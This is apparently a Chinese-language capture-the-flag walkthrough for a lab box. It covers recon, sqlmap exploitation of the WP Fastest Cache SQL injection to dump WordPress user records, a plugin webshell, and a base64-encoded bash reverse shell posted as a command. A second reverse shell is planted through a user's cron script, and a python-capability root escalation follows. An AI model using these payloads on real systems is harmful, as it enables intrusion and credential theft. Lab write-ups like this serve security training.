









## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Hard |

## Nmap

```
[root@kali] /home/kali  
❯ nmap 172.17.0.2 -sV  -A                        
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-23 21:13 CST
Nmap scan report for 172.17.0.2
Host is up (0.00011s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 8c:5c:7b:fe:79:92:7a:f9:85:ec:a5:b9:27:25:db:85 (ECDSA)
|_  256 ba:69:95:e3:df:7e:42:ec:69:ed:74:9e:6b:f6:9a:06 (ED25519)
80/tcp open  http    Apache httpd 2.4.59 ((Debian))
|_http-title: Did not follow redirect to http://norc.labs/?password-protected=login&redirect_to=http%3A%2F%2F172.17.0.2%2F
|_http-server-header: Apache/2.4.59 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.11 ms 172.17.0.2

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.22 seconds
```

将**norc.labs**添加到**/etc/hosts**

在抓包的时候发现似乎存在**wordpress**服务，可以看到**Cookie**的样式



访问**/wp-admin**的时候自动就跳转到了登录页面



使用**WPscan**并没有任何效果

## FFUF

```
[root@kali] /home/kali/Desktop  
❯ ffuf -u "http://norc.labs/FUZZ" -w ./Wordpress-BruteForce-List/WPfuzz.txt -mc 200 -o result.txt
```

然后查看是否使用了插件

```
[root@kali] /home/kali/Desktop  
❯ cat result.txt | jq | grep -n "plugin"
1196:        "FUZZ": "wp-admin/includes/plugin-install.php"
1208:      "url": "http://norc.labs/wp-admin/includes/plugin-install.php",
1232:        "FUZZ": "wp-admin/includes/plugin.php"
1244:      "url": "http://norc.labs/wp-admin/includes/plugin.php",
1664:        "FUZZ": "wp-admin/js/plugin-install.js"
1676:      "url": "http://norc.labs/wp-admin/js/plugin-install.js",
3266:        "FUZZ": "/wp-content/plugins/wp-fastest-cache/readme.txt"
3278:      "url": "http://norc.labs//wp-content/plugins/wp-fastest-cache/readme.txt",
```


## CVE-2023-6063

关注到**wp-fastest-cache**的版本号是**1.2.1**

搜索到了一个**SQL注入**的漏洞

- [motikan2010/CVE-2023-6063-PoC: CVE-2023-6063 (WP Fastest Cache < 1.2.2 - UnAuth SQL Injection)](https://github.com/motikan2010/CVE-2023-6063-PoC)

```
[root@kali] /home/kali/Desktop  
❯ sqlmap --dbms=mysql -u "http://norc.labs/wp-login.php" --cookie='wordpress_logged_in=*' --level=2 --schema    
```



可以看到存在时间盲注漏洞

```
[root@kali] /home/kali/Desktop  
❯ sqlmap --dbms=mysql -u "http://norc.labs/wp-login.php" --cookie='wordpress_logged_in=*' --level=3 -D wordpress -T wp_users -C user_login,user_pass,user_email --dump
```



但是无法进行破解，不过得到一个子域名**oledockers**，进入后得到了密码



## www-data

采用[Dockerlabs-WalkingCMS - HYH](https://www.hyhforever.top/dockerlabs-walkingcms/)里的方式制作插件

安装后访问，**POST**传参执行命令

```
http://norc.labs/wp-content/plugins/health-check/webshell.php

#POST
cmd=echo%20%22YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTcyLjE3LjAuMS8xMDAgMD4mMQ==%22%7Cbase64%20-d%7Cbash
```



## User

在**kvzlx**的目录中发现一个脚本，但是其中的**.wp-encrypted.txt**并没有在目录中发现，**/tmp/decoded.txt**也是空的

```
www-data@955ef139e3e6:/home/kvzlx$ ls -al
ls -al
total 24
drwxr-xr-x 1 kvzlx kvzlx 4096 Jul  1  2024 .
drwxr-xr-x 1 root  root  4096 Jul  1  2024 ..
-rw-r--r-- 1 kvzlx kvzlx  220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 kvzlx kvzlx 3526 Apr 23  2023 .bashrc
-rwxr--r-- 1 kvzlx kvzlx  164 Jun  9  2024 .cron_script.sh
-rw-r--r-- 1 kvzlx kvzlx  807 Apr 23  2023 .profile
www-data@955ef139e3e6:/home/kvzlx$ cat .cron*
cat .cron*
#!/bin/bash
ENC_PASS=$(cat /var/www/html/.wp-encrypted.txt)
DECODED_PASS=$(echo $ENC_PASS | base64 -d)

echo $DECODED_PASS > /tmp/decoded.txt

eval "$DECODED_PASS"
```

上传一下**pspy**跟踪进程

- [DominicBreuker/pspy: Monitor linux processes without root permissions](https://github.com/DominicBreuker/pspy?tab=readme-ov-file)



可以发现**UID**为**1000**的用户在运行这个脚本，也就是**kvzlx**本人

```
www-data@955ef139e3e6:/var/www$ getent passwd 1000
getent passwd 1000
kvzlx:x:1000:1000::/home/kvzlx:/bin/bash
```

因此可以写入进行**.wp-encrypted.txt**提权，因为**.cron\_script.sh**无法写入

```
www-data@955ef139e3e6:/var/www/html$ echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTcuMC4xLzIwMCAwPiYx" >> .wp-encrypted.txt
```

监听得到**kvzlx**的反弹**shell**

## Root

在**linpeas**输出中发现，**/opt/python3**可以修改**uid**



查找**GTFOBins**👇

- [python | GTFOBins](https://gtfobins.github.io/gtfobins/python/#capabilities)



## Summary

`User`：扫描得到**wordpress**缓存插件存在**SQL时间盲注**漏洞，得到子域名后拿到密码，登录后台从而写入木马反弹**Shell**。这里可以上传**pspy**来追踪进程发现存在用户的**定时任务**，根据脚本写入反弹语句。

`Root`：**python**可以设置当前用户的**uid**，可以设置为**root**权限启动**/bin/sh**。
